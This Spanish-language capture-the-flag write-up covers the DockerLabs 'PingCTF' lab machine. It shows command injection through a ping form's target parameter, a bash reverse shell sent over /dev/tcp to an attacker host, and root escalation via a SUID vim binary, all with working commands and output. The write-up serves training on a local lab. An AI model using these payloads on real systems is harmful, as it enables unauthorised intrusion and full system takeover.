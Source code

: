 # 🖥️ Writeup - PingCTF 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip PingCTF.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh ping_ctf.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 
```bash
nmap -n -Pn -sCV -p80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-04 19:38 CEST
Nmap scan report for 172.17.0.2.
Host is up (0.000026s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Ping
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.69 seconds
```
El único puerto abierto es el puerto `80`, así que vamos a comprobar qué hay alojado.

Encontramos una especie de portal donde podemos verificar la conectividad introduciendo `IPs` o dominios.


![Portal de conectividad](../images/IP%20verify.png)

Haremos una prueba verificando la conectividad con Google introduciendo `8.8.8.8`.

Se nos redirige a una página de resultados en la que podemos ver que la URL es la siguiente:

```
http://172.17.0.2/ping.php?target=8.8.8.8
``` 

Es decir, el archivo `ping.php` ejecuta un comando `ping` al target que le hemos pasado como parámetro.

Si conseguimos inyectar algún comando propio junto con la `IP`, obtendremos un `RCE` y una potencial vía de intrusión.

Vamos a probar el clásico punto y coma después de la `IP`, seguido de un comando nuestro.

```bash
8.8.8.8;whoami
``` 
![whoami](../images/whoami.png)

Como vemos, ha funcionado y estamos interactuando con el usuario `www-data`.

Ahora vamos a intentar obtener una `reverse shell` a través del `RCE`, y para ello utilizaremos `BurpSuite` para interceptar la petición y manipularla con mayor comodidad.

Una vez interceptada la petición, inyectamos el comando:

```bash
bash -c 'bash -i >& /dev/tcp/10.0.4.12/4444 0>&1'
``` 
Luego seleccionamos el comando y pulsamos `Ctrl + U` para aplicar URL encoding.

Colocamos un listener en el puerto `4444` de nuestra máquina atacante.

```bash
nc -nlvp 4444
```
Hacemos `forward` a la petición y recibimos la `reverse shell` en la máquina atacante.

Info:
```
listening on [any] 4444 ...
connect to [10.0.4.12] from (UNKNOWN) [172.17.0.2] 56276
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@21a8aa7e4e6e:/var/www/html$
```

# TTY

Antes de buscar vectores de escalada de privilegios, vamos a hacer un tratamiento de TTY para tener una shell más interactiva, con los siguientes comandos:

```bash
script /dev/null -c bash
```
`ctrl Z`
```bash
stty raw -echo; fg
```
```bash
reset xterm
```
```bash
export TERM=xterm
```
```bash
export BASH=bash
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo`, `SUID`, `Capabilities`.

```bash 
sudo -l
```

```bash
find / -perm -4000 -type f 2>/dev/null 
```

```bash
sudo getcap -r / 2>/dev/null
```

Info:
```
/usr/bin/umount
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/vim.basic
```

En los binarios con permisos SUID nos llama la atención el último: `vim.basic`.

Es probable que podamos inyectar comandos en el editor de texto y ejecutarlos como root, así que vamos a intentarlo.

Probamos con los siguientes comandos, pero ninguno de ellos funcionó.

```bash
/usr/bin/vim.basic -c ':!bash -p'
```

```bash
/usr/bin/vim.basic -c ':set shell=/bin/sh' -c ':shell'
```

Finalmente, lo conseguimos con el comando:

```bash
/usr/bin/vim.basic -c ':py3 import os; os.execl("/bin/bash", "bash", "-pc", "reset; exec bash -p")'
```
Info:
```
bash-5.2# whoami
root
bash-5.2# 
```

Ya somos root!